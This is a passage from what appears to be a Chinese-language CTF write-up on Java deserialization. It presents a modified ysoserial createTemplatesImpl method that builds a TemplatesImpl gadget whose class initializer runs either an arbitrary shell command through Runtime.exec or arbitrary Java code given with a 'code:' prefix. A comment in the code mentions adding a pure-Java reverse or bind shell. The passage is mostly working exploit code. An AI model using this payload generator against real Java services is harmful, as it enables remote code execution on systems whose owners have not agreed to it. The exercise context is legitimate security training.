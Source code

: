 这个是hint中给的，所以我们需要找另一种方式，如：代码执行。

查阅资料，发现ysoserial预留了这块的接口，修改即可。

> [https://blog.csdn.net/fnmsd/article/details/79534877](https://blog.csdn.net/fnmsd/article/details/79534877)


然后我们尝试去修改ysoserial/payloads/util/Gadgets.java中createTemplatesImpl方法如下：

```java
// createTemplatesImpl修改版，支持代码执行
public static <T> T createTemplatesImpl ( final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
            throws Exception {
        final T templates = tplClass.newInstance();

        // use template gadget class
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
        pool.insertClassPath(new ClassClassPath(abstTranslet));
        final CtClass clazz = pool.get(StubTransletPayload.class.getName());
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
//        String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
//            command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
//            "\");";
        String cmd="";
        //如果以code:开头，认为是代码，否则认为是命令
        if(!command.startsWith("code:")){
            cmd = "java.lang.Runtime.getRuntime().exec(\"" +
            command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
            "\");";
        }
        else{
            System.err.println("Java Code Mode:"+command.substring(5));//使用stderr输出，防止影响payload的输出
            cmd = command.substring(5);
        }
        clazz.makeClassInitializer().insertAfter(cmd);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        clazz.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(abstTranslet.getName());
        clazz.setSuperclass(superC);

        final byte[] classBytes = clazz.toBytecode();

        // inject class bytes into instance
        Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
            classBytes, ClassFiles.classAsBytes(Foo.class)
        });

        // required to make TemplatesImpl happy
        Reflections.setFieldValue(templates, "_name", "Pwnr");
        Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
        return templates;
    }
```
